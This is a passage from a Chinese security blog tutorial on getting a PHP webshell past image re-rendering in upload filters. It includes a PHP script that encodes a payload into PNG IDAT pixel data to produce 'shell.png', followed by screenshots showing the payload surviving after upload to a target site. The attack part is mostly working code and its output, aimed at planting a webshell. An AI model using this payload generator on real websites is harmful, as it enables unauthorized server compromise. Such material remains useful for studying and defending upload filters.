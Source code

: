 ![](https://image.201068.xyz/assets/16036348898441.png) 

赶紧来查看一下里面是否包含图马信息：

![](https://image.201068.xyz/assets/16036348742287.png) 

 阿这！居然成功了，真的是功夫不负有心人呐，不枉国光我周末大半夜的在公司加班写的这篇文章了！！！泪目

### 写入IDAT数据块

PNG  也是可以写入 IDAT 数据来绕过渲染的，由于快 23.00 了国光没有多余的时间研究里面细节了，这里直接引用了先知里面提供的一个脚本：

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./shell.png');
?>
```

直接运行生成会在脚本目录下生成 shell.png 图片，下面是生成好的 图片：

![](https://image.201068.xyz/assets/16036353722974.png) 

其内容如下：

![](https://image.201068.xyz/assets/16036354976650.png) 

 然后上传到目标网站上面渲染一下再导出：

![](https://image.201068.xyz/assets/16036356271476.png) 

查看一下里面的 payload 是否还存在：

![](https://image.201068.xyz/assets/16036357015967.png) 

依然存在的，成功绕过渲染 ，这里顺便提一下这个 shell 的使用方法，下面就不再补充了。
